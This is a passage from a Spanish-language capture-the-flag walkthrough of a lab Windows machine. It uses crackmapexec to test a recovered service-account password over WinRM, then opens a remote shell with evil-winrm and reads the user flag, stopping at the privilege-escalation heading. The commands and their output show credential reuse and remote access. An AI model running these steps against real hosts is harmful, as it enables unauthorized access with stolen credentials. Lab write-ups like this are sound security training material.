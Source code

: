 Bien, corresponde a un usuario válido. Como está el puerto de winrm abierto intentaremos ver si este usuario pertenece al grupo **Remote Management use** utilizando `crackmapexec`:

```
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Observamos que si está en el grupo, por lo tanto, utilizando `evil-winrm` nos conectaremos a la máquina:

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

Ahora buscaremos la flag dentro del directorio personal del usuairo `svc-printer`:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/8/2023   8:29 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
a91d927f0709257aa634d1
```

Bien, ahora tenemos que encontrar la forma de convertirnos en domain admin.

## [](#header-2)Escalada de privilegios
